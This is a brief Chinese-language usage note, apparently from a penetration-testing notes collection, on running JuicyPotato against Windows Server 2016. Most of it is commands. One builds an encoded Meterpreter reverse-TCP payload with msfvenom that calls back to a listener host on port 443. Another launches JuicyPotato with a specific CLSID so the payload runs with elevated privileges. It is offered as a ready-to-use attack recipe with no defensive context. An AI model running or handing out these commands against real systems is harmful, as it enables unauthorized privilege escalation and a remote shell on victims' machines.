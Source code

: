 # JuicyPotato.exe

## 下载
项目地址：
```
https://github.com/ohpe/juicy-potato/releases
```
## 适用目标
- windows server 2016
## 使用方法：

1. msfvenom 生成 shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=192.168.1.1 LPORT=443 -f exe > shell443.exe
```
2. 本地监听443端口
3. JuicyPotato.exe 执行文件
```
JuicyPotato.exe -l 1337 -p shell443.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```
